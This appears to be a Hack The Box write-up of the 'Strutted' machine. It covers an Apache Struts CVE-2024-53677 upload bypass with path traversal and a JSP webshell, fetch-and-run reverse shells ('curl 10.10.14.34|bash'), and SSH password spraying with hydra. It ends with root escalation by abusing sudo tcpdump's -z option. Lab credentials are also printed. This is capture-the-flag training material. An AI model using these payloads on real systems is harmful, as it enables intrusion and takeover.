



# Hack The Box - Strutted



Strutted is a medium-difficulty Linux machine featuring a website for an image-hosting company. The application exposes a Docker image that includes Apache Struts 6.3.0.1, which is vulnerable to CVE-2024-53677 and can be abused to gain a foothold. From there, I extract credentials from `tomcat-users.xml`, authenticate as `james`, and escalate to root by abusing `tcpdump` through `sudo`.

## Recon

I started by initializing my target profile and running a port scan.

```bash
pt init '10.10.11.59 strutted.htb'
```

```bash
nmap -sVC --version-all -T4 -Pn -vv -oA ./nmap/full_tcp_scan -p 22,80 10.10.11.59
```

The scan showed SSH and HTTP:

```text
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 63 nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://strutted.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

I added the hostname to my workflow and began web enumeration. `feroxbuster` revealed several interesting endpoints:




```text
200      GET      182l      443w     6119c [http://strutted.htb/how]
200      GET      0l        0w 39680602c [http://strutted.htb/download.action]
200      GET      182l      567w     6610c [http://strutted.htb/about]
200      GET      0l        0w     5197c [http://strutted.htb/code]
200      GET      0l        0w 39680602c [http://strutted.htb/download]
200      GET      182l      443w     6119c [http://strutted.htb/how.action]
200      GET      0l        0w     5197c [http://strutted.htb/network.action]
200      GET      0l        0w     5197c [http://strutted.htb/osc]
```
	
The page looked like a file upload service, and the footer mentioned downloading the application’s Docker image.

## Image Review

After extracting the Docker image, I checked the files inside and found `tomcat-users.xml` containing credentials:

```xml
<tomcat-users>
    <role rolename="manager-gui"/>
    <role rolename="admin-gui"/>
    <user username="admin" password="skqKY6360z!Y" roles="manager-gui,admin-gui"/>
</tomcat-users>
```

The source code also showed that the application was built with Apache Struts 6.3.0.1, which is vulnerable to CVE-2024-53677 https://github.com/TAM-K592/CVE-2024-53677-S2-067.

## Upload Bypass

The normal upload page only accepted image extensions like JPG, PNG, and GIF, so a straightforward webshell upload would not work. After reviewing the code, I adjusted the request to fit the validation logic:



- Set the `Content-Type` to `image/png`.
- Used `GIF89a` as the magic header.
- Changed the file extension to `.png`.
- Adjusted the multipart field name to match the Struts parameter handling.

A test upload worked and confirmed path traversal in the filename parameter.

```text
POST /upload.action HTTP/1.1
Host: strutted.htb
Content-Type: multipart/form-data; boundary=---------------------------418319249314572457372052652738

-----------------------------418319249314572457372052652738
Content-Disposition: form-data; name="Upload"; filename="test.png"
Content-Type: image/png

GIF89a;
<%@ page import="java.io.*" %>
...
-----------------------------418319249314572457372052652738
Content-Disposition: form-data; name="top.uploadFileName"

../../x.jsp
-----------------------------418319249314572457372052652738--
```

I then uploaded a JSP webshell and confirmed command execution:

```bash
curl 'http://strutted.htb/x.jsp' -G --data-urlencode 'x=id'
```

```text
GIF89a;

uid=998(tomcat) gid=998(tomcat) groups=998(tomcat)
```

## Foothold

To get a better shell, I hosted a reverse shell script and used the JSP webshell to execute it:

```bash
curl 'http://strutted.htb/x.jsp' -G --data-urlencode 'x=/bin/bash -c {curl,10.10.14.34}|bash'
```

That returned a shell as `tomcat`.

```text
tomcat@strutted:~$ id
uid=998(tomcat) gid=998(tomcat) groups=998(tomcat)
```

## James Access

Inside the Tomcat home directory, I found another `tomcat-users.xml` file with a different password:

```xml
<user username="admin" password="IT14d6SSP81k" roles="manager-gui,admin-gui"/>
```

I sprayed that password against local users and found that it worked for `james`.

```bash
hydra -e nsr -L enum/users.lst -p 'IT14d6SSP81k' ssh://strutted.htb:22
```

```text
[ssh] host: strutted.htb   login: james   password: IT14d6SSP81k
```

I logged in over SSH and confirmed shell access:

```bash
sshpass -p 'IT14d6SSP81k' ssh -o "StrictHostKeyChecking no" james@10.10.11.59
```

```text
james@strutted:~$ id
uid=1000(james) gid=1000(james) groups=1000(james),27(sudo)
```

The user flag was in `~/user.txt`.

## Root Escalation

`james` could run `tcpdump` with `sudo`:

```text
User james may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/sbin/tcpdump
```

Using the GTFOBins technique, I abused `tcpdump`’s `-z` option to run a script as root. First, I tested it by writing a file into `/tmp`:

```bash
COMMAND='id > /tmp/x'
TF=$(mktemp)
echo "$COMMAND" > $TF
chmod +x $TF
sudo /usr/sbin/tcpdump -ln -i lo -w /dev/null -W 1 -G 1 -z $TF -Z root
```

That worked, so I replaced the command with a reverse shell payload:

```bash
COMMAND='curl 10.10.14.34|bash'
TF=$(mktemp)
echo "$COMMAND" > $TF
chmod +x $TF
sudo /usr/sbin/tcpdump -ln -i lo -w /dev/null -W 1 -G 1 -z $TF -Z root
```

The callback returned a root shell:

```text
root@strutted:/home/james# id
uid=0(root) gid=0(root) groups=0(root)
```

I then read `/root/root.txt` and completed the box.

## Attack Path

- Enumerate the target with Nmap and feroxbuster.
- Review the Docker image and extract `tomcat-users.xml`.
- Identify Apache Struts 6.3.0.1 and CVE-2024-53677.
- Bypass upload restrictions with a crafted multipart request.
- Upload a JSP webshell and gain code execution as `tomcat`.
- Recover a second password from Tomcat configuration.
- SSH as `james` using the recovered credentials.
- Abuse `sudo tcpdump` with GTFOBins to execute commands as root.
- Read the root flag.
